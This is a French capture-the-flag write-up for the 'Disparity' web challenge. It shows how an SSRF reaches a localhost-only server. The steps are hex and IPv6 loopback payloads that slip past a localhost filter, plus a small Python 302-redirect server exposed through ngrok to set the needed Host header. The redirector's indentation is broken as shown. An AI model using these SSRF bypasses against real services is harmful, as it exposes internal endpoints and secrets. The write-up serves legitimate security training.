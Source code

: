 Web - Disparity
===========================

Enoncé
----------

I only trust what I see and, guess what ? I don't see any vulnerability in my app. 

Résolution
-------------

On a deux serveur web, un qui est accessible, l'autre en localhost uniquement. 

Le deuxième serveur contient ce code : 

.. code-block:: php

    if ($_SERVER['HTTP_HOST'] === "localhost:8080"){
        echo getenv('FLAG');
    } else {
        echo "You are not allowed to do that";
    }

Il faut donc trouver une SSRF qui permettra de contacter le serveur local, mais on ne peut pas utiliser localhost.

On a donc trouvé ces deux paylods : 

.. code-block:: console
    
    http://0x7f000001:8080/flag.php
    http://[::ffff:7f00:1]:8080/flag.php

Mais cela ne suffit pas, car le "host" doit être égal a localhost:8080

On va donc utiliser un serveur web en local qui fait une redirection vers localhost:8080 pour avoir le bon entête : 

python3 redirector.py 8888 http://localhost:8080/flag.php

.. code-block:: python

    #!/usr/bin/env python3
    import sys
    from http.server import HTTPServer, BaseHTTPRequestHandler

    if len(sys.argv)-1 != 2:
        print("""
    Usage: {} <port_number> <url>
        """.format(sys.argv[0]))
        sys.exit()

    class Redirect(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', sys.argv[2])
        self.end_headers()
    def send_error(self, code, message=None):
        self.send_response(302)
        self.send_header('Location', sys.argv[2])
        self.end_headers()
    HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()

On fait un serveur public avec ngrok, et on envoie l'adresse du ngrok.

Le ngrok redirige vers redirector.py, qui redirige vers localhost:8080 donc avec la bon entête "Host" et on obtient le flag